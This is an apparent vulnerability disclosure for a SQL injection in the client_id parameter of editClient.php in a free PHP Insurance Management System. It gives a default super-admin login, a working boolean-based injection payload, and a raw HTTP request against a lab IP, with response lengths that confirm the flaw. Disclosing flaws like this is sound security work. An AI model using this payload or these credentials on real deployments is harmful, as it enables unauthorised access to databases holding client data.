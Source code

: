 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Login account: ahmed/12345 (Super Admin account)

Vulnerability File: /insurance/editClient.php?client_id=

Vulnerability location:  /insurance/editClient.php?client_id=,client_id

[+] Payload: /insurance/editClient.php?client_id=1511986256%27%20and%20length(database())%20=4--+ // Leak place ---> client_id

Current database name: lims,length is 4

```sql
GET /insurance/editClient.php?client_id=1511986256%27%20and%20length(database())%20=4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4084

![image](https://user-images.githubusercontent.com/54017627/166145231-f6a8c536-bb1e-4d06-9503-2d3f2783f59d.png)

![image](https://user-images.githubusercontent.com/54017627/166145253-30315002-51dd-4457-8f8f-8d117d8e22fe.png)

When length (database ()) = 4, Content-Length: 6008

![image](https://user-images.githubusercontent.com/54017627/166145225-dc268e52-5650-4e99-bc9e-df6b2865b96d.png)

![image](https://user-images.githubusercontent.com/54017627/166145241-e1e8f7fa-2d8c-4882-b1ba-235fe2dd20c8.png)


